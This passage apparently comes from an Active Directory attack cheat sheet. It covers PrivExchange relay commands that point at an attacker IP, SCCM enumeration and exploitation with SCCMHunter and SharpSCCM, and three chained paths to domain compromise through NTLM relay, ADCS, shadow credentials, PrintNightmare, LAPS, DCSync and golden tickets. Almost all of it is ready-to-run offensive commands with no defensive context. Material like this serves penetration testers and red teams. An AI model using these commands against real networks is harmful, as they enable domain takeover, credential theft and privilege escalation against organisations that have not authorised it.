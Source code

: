 #### **PrivExchange**
```bash
# PrivExchange
python3 privexchange.py -u lowpriv -p password -ah attacker_ip exchange.domain.com
ntlmrelayx.py -t ldap://DC_IP --escalate-user lowpriv
```

### **🖥️ SCCM Attacks**

#### **SCCM Enumeration**
```bash
# SCCMHunter
python3 sccmhunter.py find -dc-ip DC_IP -u lowpriv -p password

# Windows
Get-WmiObject -Class SMS_Site -Namespace root\sms -ComputerName SCCM_SERVER
```

#### **SCCM Exploitation**
```bash
# SharpSCCM
.\SharpSCCM.exe get class-instances SMS_Admin
.\SharpSCCM.exe invoke class-method SMS_Collection RequestRefresh
```

---

## 🎪 **Advanced Attack Chains**

### **🔗 Chain 1: Coercion → NTLM Relay → ADCS → Golden Ticket**
1. `Coercer.py` → Force authentication from DC
2. `ntlmrelayx.py` → Relay to ADCS HTTP endpoint
3. `certipy auth` → Authenticate with certificate
4. `secretsdump.py` → DCSync krbtgt hash
5. `ticketer.py` → Create golden ticket

### **🔗 Chain 2: ASREPRoasting → Shadow Credentials → DA**
1. `GetNPUsers.py` → Find ASREProastable users
2. `hashcat` → Crack user password
3. `pyWhisker.py` → Add shadow credentials to DA
4. `certipy auth` → Authenticate as DA with certificate
5. `secretsdump.py` → Extract all domain hashes

### **🔗 Chain 3: PrintNightmare → Local Admin → LAPS → Domain Escalation**
1. `CVE-2021-1675.py` → Exploit PrintNightmare for local admin
2. `secretsdump.py` → Extract local SAM
3. `crackmapexec` → Password spray with local admin hash
4. LAPS read permissions → Extract LAPS passwords
5. High-privilege server → DCSync attack
